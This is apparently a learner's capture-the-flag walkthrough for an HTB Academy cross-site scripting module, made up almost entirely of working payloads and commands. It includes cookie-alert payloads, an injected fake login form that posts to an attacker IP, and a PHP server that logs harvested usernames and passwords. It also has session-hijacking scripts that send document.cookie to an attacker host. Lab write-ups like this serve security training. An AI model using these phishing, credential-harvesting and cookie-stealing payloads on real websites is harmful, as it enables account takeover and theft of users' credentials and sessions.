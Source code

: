 # [HTB_Academy] Cross-Site Scripting (XSS)

## Stored XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<script>alert(document.cookie)</script>
```

## Reflected XSS

>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<script>alert(document.cookie)</script>
```

## DOM XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<img src="" onerror=alert(document.cookie)>
```

## XSS Discovery

>**Q. Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter? **
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
>**Q. What type of XSS was found on the above server? "name only"**
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
## Phishing

>**Q. Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

```bash
http://10.129.252.57/phishing/
```

```bash
http://10.129.252.57/phishing/index.php?url=httos%3A%2F%2Fwww.hackthebox.eu%2Fimages%2Flogo-htb.svg
```

```bash
ifconfig
```

```bash
http://10.129.252.57/phishing/index.php?url=<script>alert(window.origin)</script>
```

```bash
http://10.129.252.57/phishing/index.php?url=document.write('<h3>Please login to continue</h3><form action=http://10.10.14.46><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

```bash
http://10.129.252.57/phishing/index.php?url='/><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.46:3333><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');</script><!--
```

```bash
http://10.129.252.57/phishing/index.php?url=%27/%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.14.46:3333%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove();%3C/script%3E%3C!--
```

```bash
mkdir /tmp/server
cd /tmp/server
nano index.php
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```bash
sudo php -S 0.0.0.0:3333
```

```bash
cat creds.txt
```

```bash
cat index.php
```

```bash
http://10.129.252.57/phishing/send.php
```

```bash
sudo php -S 0.0.0.0:3333
```

```bash
http://10.129.252.57/phishing/login.php
```

## Session Hijacking

>**Q. Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**
Look for the payload

```javascript
"><script src=http://10.10.14.46:3333></script>
```

Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.

Look for the position
```javascript
"><script src=http://10.10.14.46:3333/fullname></script>
"><script src=http://10.10.14.46:3333/username></script>
"><script src=http://10.10.14.46:3333/password></script>
"><script src=http://10.10.14.46:3333/url></script>
```

```javascript
new Image().src='http://10.10.14.46:3333/index.php?c='+document.cookie
```


## Skills Assessment

>**Q. What is the value of the 'flag' cookie?**
>
```bash
http://10.129.13.2/assessment
```

```javascript
"><script src=http://10.10.14.46:3333/coment></script>
"><script src=http://10.10.14.46:3333/name></script>
"><script src=http://10.10.14.46:3333/url></script>
```

```bash
sudo php -S 0.0.0.0:3333
```

```bash
nano script.js
```
```bash
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```

```javascript
<script src=http://10.10.14.46:3333/script.js></script>
```

